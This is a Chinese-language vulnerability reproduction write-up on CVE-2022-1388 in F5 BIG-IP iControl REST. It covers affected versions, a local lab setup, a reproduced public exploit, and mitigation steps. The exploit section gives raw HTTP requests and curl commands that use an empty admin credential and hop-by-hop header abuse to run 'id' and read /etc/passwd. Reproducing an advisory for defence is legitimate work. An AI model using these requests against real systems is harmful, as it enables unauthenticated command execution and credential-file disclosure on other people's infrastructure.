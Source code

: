 CVE-2022-1388： BIG-IP iControl REST 漏洞
======================================

0x00 影响
=======

> **Impact**
> 
> This vulnerability may allow an unauthenticated attacker with network access to the BIG-IP system through the management port and/or self IP addresses to execute arbitrary system commands, create or delete files, or disable services. There is no data plane exposure; this is a control plane issue only.

根据官方描述得知，该漏洞允许未授权的攻击者通过接口对BIG-IP系统访问，并能执行任意系统命令、创建、删除文件以及关闭服务。

| 产品 | 分支 | 受影响版本 | Fixes introduced in3 | 漏洞威胁等级 | CVSSv3 评分 |
|---|---|---|---|---|---|
| BIG-IP (all modules) | 17.x | None | 17.0.0 | 严重 | [9.8](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
|  | 16.x | 16.1.0 - 16.1.2 | 16.1.2.2 |  |  |
|  | 15.x | 15.1.0 - 15.1.5 | 15.1.5.1 |  |  |
|  | 14.x | 14.1.0 - 14.1.4 | 14.1.4.6 |  |  |
|  | 13.x | 13.1.0 - 13.1.4 | 13.1.5 |  |  |
|  | 12.x | 12.1.0 - 12.1.6 | 官方无补丁 |  |  |
|  | 11.x | 11.6.1-11.6.5 | 官方无补丁 |  |  |

0x01 复现
=======

从官网<https://downloads.f5.com/esd/productlines.jsp>下载4个版本虚拟镜像，本地复现：

选择镜像需要在受影响版本内的虚拟机ova包，

![image-20220510181303182.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9c5cc34a7484e638637989f230c46f158a92a677.png)  
下载好的镜像，直接双击打卡导入，或者在虚拟机中选择导入均可：

![image-20220510180934767.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-75e6cd538690a9c06669b34987356442329b3748.png)

![image-20220510181421031.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e649bc599667fe0208ed4a31c6dacc6896f04059.png)

导入完成后打开该虚拟机，需要获取该虚拟机的ip，终端输入`root/default`登录后输入`ifconfig mgmt`即可查看ip

![image-20220510182122511.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-86d6e8914d9d0893b54565249236f10f830b7a63.png)

![image-20220510182410390.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e7816d8388ece6cf8a69820369572855b6340e25.png)  
然后在浏览器输入`https://<ip>`打开看到登录界面抓包即可

![image-20220510182847547.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-82a9c96fb3aef76b194f64ea8d0e15de2e4ff87c.png)

参考<https://packetstormsecurity.com/files/167007/F5-BIG-IP-Remote-Code-Execution.html>的exp如下：

```php
\# F5 BIG-IP RCE exploitation (CVE-2022-1388)  
​  
POST (1):   
​  
POST /mgmt/tm/util/bash HTTP/1.1  
Host: <redacted>:8443  
Authorization: Basic YWRtaW46  
Connection: keep-alive, X-F5-Auth-Token  
X-F5-Auth-Token: 0  
​  
{"command": "run" , "utilCmdArgs": " -c 'id' " }  
​  
curl commandliner:   
​  
$ curl -i -s -k -X $'POST'  
\-H $'Host: <redacted>:8443'   
\-H $'Authorization: Basic YWRtaW46'   
\-H $'Connection: keep-alive, X-F5-Auth-Token'   
\-H $'X-F5-Auth-Token: 0'   
\-H $'Content-Length: 52'   
\--data-binary $'{\\"command\\": \\"run\\" , \\"utilCmdArgs\\": \\" -c \\'id\\' \\" }\\x0d\\x0a'  
$'https://<redacted>:8443/mgmt/tm/util/bash' --proxy http://127.0.0.1:8080  
​  
​  
POST (2):  
​  
POST /mgmt/tm/util/bash HTTP/1.1  
Host: <redateced>:8443  
Authorization: Basic YWRtaW46  
Connection: keep-alive, X-F5-Auth-Token  
X-F5-Auth-Token: 0  
​  
{"command": "run" , "utilCmdArgs": " -c ' cat /etc/passwd' " }  
​  
curl commandliner:  
​  
$ curl -i -s -k -X $'POST'  
\-H $'Host: <redacted>:8443'   
\-H $'Authorization: Basic YWRtaW46' -H $'Connection: keep-alive, X-F5-Auth-Token'   
\-H $'X-F5-Auth-Token: 0'  
\--data-binary $'{\\"command\\": \\"run\\" , \\"utilCmdArgs\\": \\" -c \\' cat /etc/passwd\\' \\" }\\x0d\\x0a\\x0d\\x0a'  
$'https://<redacted>/mgmt/tm/util/bash' --proxy http://127.0.0.1:8080  
​
```

问题可能与使用空凭据`admin:`绕过了前端和后端身份验证有关，以及HTTP的 hop\_by\_hop请求头问题:

<https://portswigger.net/research/top-10-web-hacking-techniques-of-2019-nominations-open>

<https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers>

HTTP的 hop\_by\_hop请求头问题，大概意思就是讲：

请求还可以定义一组自定义的标头，通过将它们添加到标头[中来逐跳处理](https://tools.ietf.org/html/rfc2616#section-14.10)`Connection`，如下所示：

Connection: close, X-Foo, X-Bar

在此示例中，我们要求代理将`X-Foo`和`X-Bar`作为逐跳处理，这意味着我们希望代理在传递请求之前将它们从请求中删除。

复现过程中发现只有14.x-16.x版本的请求头需要为`Host:localhost`才可以。

![image-20220510185630802.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-3d9a6fb597d8608a9be3c4cfd29d381067546c87.png)

![image-20220510183248712.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a922ff7b1cd06ecb42e9eb8630f6928761ff8c45.png)

0x02 修复方案
=========

建议升级只最新版本或可参考官方修复建议：<https://support.f5.com/csp/article/K23605346> 的`Recommended Actions`

在受影响的版本内可执行以下步骤以缓解攻击：

**通过自身 IP 地址阻止 iControl REST 访问**

**通过管理界面阻止 iControl REST 访问**

**修改 BIG-IP httpd 配置**

0x03 参考链接
=========

<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1388>

<https://support.f5.com/csp/article/K23605346>

<https://packetstormsecurity.com/files/167007/F5-BIG-IP-Remote-Code-Execution.html>

<https://portswigger.net/research/top-10-web-hacking-techniques-of-2019-nominations-open>

<https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers>